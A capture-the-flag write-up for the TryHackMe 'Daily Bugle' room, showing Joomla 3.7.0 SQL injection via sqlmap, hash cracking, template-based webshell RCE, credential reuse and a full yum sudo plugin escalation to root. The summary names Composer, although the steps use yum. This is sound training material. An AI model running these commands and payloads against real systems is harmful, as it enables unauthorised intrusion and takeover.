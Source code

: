 # TryHackMe - Daily Bugle 🕵️‍♂

![dailybuglethm](https://github.com/user-attachments/assets/48b51a86-f1df-4868-9a39-c1f8fd809460)

 
**Room**: [Daily Bugle](https://tryhackme.com/room/dailybugle)  
**Difficulty**: Medium/hard  
**Category**: Web | Privilege Escalation  

---

## Summary

This box involved exploiting a vulnerable Joomla CMS installation to gain a foothold, then escalating privileges by abusing misconfigured `sudo` permissions on Composer. Overall, a great exercise in chaining web-based exploitation with local privilege escalation. There are some random questions in here that I might not go over entirely to shout out the answer.

---

## Recon & Enumeration

### Nmap

```bash
nmap -sC -sV -oA nmap/dailybugle <IP>


22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu
80/tcp open  http    Apache httpd 2.4.18
```
### Web Enum

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -o gobusterenum.txt
```
Discovered the site is running Joomla 3.7:

Which has a known RCE vulnerability `JOOMLA VERSION: 3.7.0` https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html:
```
JOOMLA VERSION: 3.7.0


# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917
```
Using sqlmap: 
```
sqlmap -u "http://<IP>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
| id  | name       | email                                             | password (bcrypt)                                                | username |
| --- | ---------- | ------------------------------------------------- | ---------------------------------------------------------------- | -------- |
| 811 | Super User | [jonah@tryhackme.com](mailto:jonah@tryhackme.com) | \$2y\$10\$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw\.V.d3p12kBtZutm | jonah    |

There is a hash and now we need to crack it using johntheripper: 
```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
Cracked password: `spiderman123`

### Joomla Admin Access & Remote Code Execution (RCE)
Logged into Joomla admin with credentials jonah:spiderman123.Because the version is outdated and vulnerable, you can inject malicious PHP code in a template file.
This code lets you execute system commands on the server (Remote Code Execution).
You test this by running a simple command (ls) through the injected PHP shell, confirming you have command execution on the target.
Exploited template editing functionality to inject commands and get RCE:
```
http://10.10.141.15/index.php?cmd=ls
```
```
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt
```
### Getting a Reverse Shell
Using the Joomla shell, you run a reverse shell payload that connects back to your listener, giving you interactive shell access on the server.
```
nc -nvlp 4444
```
From Joomla RCE, spawned a reverse shell:
```
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
### Finding Credentials
Joomla stores its database credentials in a file called configuration.php.
You locate and read this file, finding the MySQL database username and password.
This is important because the database password might be reused elsewhere, or the database user might have higher privileges.
In `configuration.php` :
```
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
public $dbprefix = 'fb9j5_';

```
### Switching Users
Here we can see the credentials to a user. How about `jjameson`?
```
su jjameson -> Password: nv5uz9r3ZEDzVjNu
```
### Checking Permissions
We can check the permissions of the user:
```
sudo -l
```
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
### Privilege Escalation
The best place to check for escalating privileges is GTFO bins. 
`jjameson` can run yum with no password, we can spawn a root shell.
https://gtfobins.github.io/gtfobins/yum/

```
TF=$(mktemp -d) 
```
```
cat > $TF/x <<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

```
```
cat > $TF/y.conf <<EOF
[main]
enabled=1
EOF
```
```
cat > $TF/y.py <<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
```
```
sudo yum -c $TF/x --enableplugin=y
```
# ROOT!

### Conclusion
The Daily Bugle room highlights the danger of outdated software like Joomla 3.7.0. We found a SQL injection vulnerability (CVE-2017-8917) that exposed credentials, which we cracked with John to access the Joomla admin panel. Using template editing, we achieved RCE and found MySQL root creds in configuration.php. These were reused by a local user, allowing us to switch users. With sudo rights to run yum, we exploited a GTFOBins method to gain root access.

